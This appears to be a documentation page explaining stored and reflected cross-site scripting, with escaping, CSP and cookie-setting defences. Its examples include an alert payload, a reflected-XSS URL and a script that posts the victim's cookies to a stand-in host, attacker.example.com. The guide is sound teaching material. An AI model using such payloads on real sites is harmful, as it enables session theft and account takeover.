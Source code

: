 ```yaml
---
title: "XSS (Cross-Site Scripting)"
draft: false
weight: 999
---
```


Cross-site scripting is a form of cyber-attack where the attacker tricks a user into executing a malicious script.
The attacks can lead to the disclosure of the user's cookie information or manipulation of the web page content.

## Stored XSS Attacks

Stored XSS attacks occur when the attacker storing a malicious JavaScript on the target website.
This malicious input is saved into the website’s database and is executed when other users access the website.

For instance, in a chat application, an attacker could post the following:

```html
<script>alert("Hacked!");</script>
```

If the website does not properly escape or sanitize the input, any user who accesses the chat application and views the attacker's post will inadvertently execute this script.
While an alert may seem harmless, attackers could execute scripts like the following to send a user's cookies to the attacker:

```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "https://attacker.example.com/steal-data", true);
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  xhr.send("cookie=" + document.cookie);
</script>
```

## Reflected XSS Attacks

Reflected XSS attacks are different from stored XSS attacks in that the malicious script is not stored on the target website.
Its impact is generally more limited than stored XSS.

As an example, an attacker might send phishing emails or messages with a link like this:

```html
https://victim.example.com/search?q=<script>alert('Hacked!');</script>
```

If the target website doesn't properly handle parameters, the script might be executed.
Just like with stored XSS, the script executed is not limited to displaying an alert.
There are various techniques, such as embedding the target site inside an iframe on a fake website to steal session IDs or altering forms to send information to the attacker.

## Prevention

The main cause of XSS vulnerabilities is a failure to escape special characters during HTML rendering.
As a fundamental measure, it is necessary to systematically escape special characters within element content and attribute values, as shown in the table below:

| Special Character | Escape Code |
| ----------------- | ----------- |
| <                 | `&lt;`      |
| >                 | `&gt;`      |
| &                 | `&amp;`     |
| "                 | `&quot;`    |
| '                 | `&#39;`     |

Additionally, the following measures are recommended:

- Returning response headers that enable XSS filters through web server configuration.
  - Content Security Policy (CSP): A security policy controlled through server response headers, restricting external content loading and script execution.
  - X-XSS-Protection: This is now deprecated as different or older browsers have varied implementations or lack support, CSP is recommended.
- Sanitizing input values (e.g., allow only numbers, letters, character limits).
- Thoughtful cookie settings:
  - HttpOnly: Setting that prevents JavaScript from reading cookies.
  - SameSite: Setting that prevents cookies from being read through requests from different domains. Since there are different types of restrictions, it's necessary to choose the appropriate setting when using it.

## References

- 徳丸 浩、「体系的に学ぶ 安全なWebアプリケーションの作り方 第2版」
